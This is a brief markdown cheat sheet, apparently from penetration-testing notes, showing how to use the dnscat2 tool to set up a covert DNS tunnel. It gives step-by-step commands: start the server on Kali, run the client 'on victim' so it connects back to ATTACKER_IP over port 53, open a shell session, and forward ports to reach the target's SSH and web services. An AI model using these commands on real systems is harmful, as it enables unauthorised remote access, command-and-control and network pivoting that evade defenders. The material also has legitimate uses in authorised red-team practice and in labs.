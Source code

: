 # Dnscat2 

### DNScat2 is a tool which can be used to create a tunnel with the help of DNS protocol. A connection to port 53 should be established to access any data. DNScat2 mainly consists of a client and a Kali Linux.

## Github repo: https://github.com/iagox86/dnscat2

### Steps:

#### 1) Run dnscat2 server on Kali

    dnscat2-server (Kali Linux)

#### 2) Run dnscat on victim to connect to our Kali server via DNS

    ./dnscat --dns=server=ATTACKER_IP,port=53

#### 3) Select the newly created session on our Kali server

    session 

    session -i 1 

#### 4) We can create another session with this command

    shell

    session -i 2

#### 5) On our 2nd shell session, we can run different commands. For example, we can create an SSH tunnel this way.

    ifconfig 

    listen 127.0.0.1:8888 TARGET:22 (shell)

    ssh USER@127.0.0.1 -p 8888 (Kali)

    listen 127.0.0.1:9999 192.168.226.129:80 (Port 80 tunneling)

